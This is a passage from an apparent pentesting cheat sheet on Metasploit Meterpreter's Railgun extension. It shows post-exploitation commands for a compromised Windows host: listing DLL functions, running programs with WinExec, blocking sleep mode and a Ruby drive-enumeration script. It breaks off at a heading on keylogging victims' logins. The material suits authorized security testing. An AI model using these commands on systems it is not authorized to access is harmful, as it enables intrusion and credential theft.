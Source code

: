 ```
>> puts i.pretty 
>> end 
```
### Enumerate Accessible Functions
```
>> puts client.railgun.user32 
RuntimeError: DLL-function to_ary not found. Known functions: ["ActivateKeyboardLayout", 
"AdjustWindowRect", 
"AdjustWindowRectEx", 
"AllowSetForegroundWindow",
```
### To list all loaded DLL
```
>> client.railgun.known_dll_names
=> ["kernel32", "ntdll", "user32", "ws2_32", "iphlpapi", "advapi32", "shell32", "netapi32", "crypt32", "wlanapi", "wldap32", "version", "psapi"]
```
To list all available function and its parameters for specific DLL (say user32 )
<pre>
client.railgun.user32.functions.each_pair {|n, v| puts "Function name: #{n}, Params: #{v.params}"}
</pre>
### Execute File
<pre>
>> client.railgun.kernel32.WinExec ("calc", 0) 
</pre>
### Prevent Sleep Mode
<pre>
client.railgun.kernel32.SetThreadExecutionState("ES_CONTINUOUS |ES_SYSTEM_REQUIRED")
</pre>
### List Drives
The problem that I’ve had on a number of pentests is that you get shell, but from CMD or Meterpreter there is no good way to find all of the volumes (drives) attached.
* net use - Shows you what Network drives are connected, but not physical ones
* fsutil fsinfo drives - You must be an administrator to ride this train
* fdisk /status - Only on OLD versions of DOS, not sure when this disappeared

But railgun solves this problem with a really short script:
```
# Load the Railgun plugin  **_Update: You no longer need this step_**  
# client.core.use("railgun")   
# Make the API call to enum drive letters   
a = client.railgun.kernel32.GetLogicalDrives()["return"]         
# Math magic to convert the binary to letters        
drives = []         
letters = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"         
(0..25).each do |i|        
	test = letters[i,1]        
	rem = a % (2**(i+1))        
	if rem > 0        
		drives << test        
		a = a - rem        
	end        
end         
print_line("Drives Available = #{drives.inspect}")
Output: Drives Available = ["A", "C", "D", "P", "X"]
```
### Jedi Keylogging
One of the problems with keylogging is you never know when that person will log in, and if you’re using a client side, they have probably already logged in and you’re hoping they log into a portal or some other password protected site.

